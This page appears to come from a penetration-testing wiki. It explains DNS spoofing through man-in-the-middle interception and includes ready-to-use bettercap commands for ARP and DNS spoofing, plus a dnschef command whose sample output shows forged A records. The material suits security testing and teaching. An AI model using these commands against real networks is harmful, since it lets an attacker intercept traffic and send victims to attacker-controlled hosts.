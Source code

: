 # DNS Spoofing

DNS spoofing consists of creating a DNS server and responding to DNS queries obtained using the man-in-the-middle technique. Since the DNS protocol is not multicast or broadcast like other protocols (LLMNR, NBT-NS, mDNS), it is necessary to receive DNS requests to our attacking system. To achieve this, we can use techniques such as ARP Spoofing, Rogue DCHP server, DCHPv6 spoofing, etc.

We can use tools like [dnschef](https://github.com/iphelix/dnschef), [responder.py](https://github.com/lgandx/Responder) or [bettercap](https://www.bettercap.org) to perform DNS spoofing.

{% tabs %}
{% tab title="Bettercap" %}
DNS spoofing can be performed with bettercap, using the dns\_spoof module. However, we will first need to perform ARP or DHCPv6 protocol spoofing:

```bash
# ARP spoof:
set arp.spoof.targets <TARGET_IP> # Or network: 10.10.10.0/24
set arp.spoof.whitelist 192.168.232.1 # Optional
arp.spoof on
# DNS spoof:
set dns.spoof.address <LHOST>
set dns.spoof.domains <DOMAIN_1_>,<DOMAIN_2_>
dns.spoof on
```
{% endtab %}

{% tab title="dnschef" %}
[DNSChef](https://github.com/iphelix/dnschef) is a highly configurable DNS proxy for Penetration Testers and Malware Analysts:

{% code title="Fake DNS server with dnschef" %}
```bash
dnschef -i <LHOST> --fakeip <LHOST> --port 53 # For logs: --logfile dnschef.log
          _                _          __  
         | | version 0.4  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   iphelix@thesprawl.org  

(12:29:51) [*] DNSChef started on interface: 192.168.100.44
(12:29:51) [*] Using the following nameservers: 8.8.8.8
(12:29:51) [*] Cooking all A replies to point to 192.168.100.44
(12:38:32) [*] 192.168.100.7: proxying the response of type 'PTR' for 44.100.168.192.in-addr.arpa
(12:38:32) [*] 192.168.100.7: cooking the response of type 'A' for aaa.contoso.local to 192.168.100.44
(12:38:32) [*] 192.168.100.7: proxying the response of type 'AAAA' for aaa.contoso.local
```
{% endcode %}


{% endtab %}
{% endtabs %}
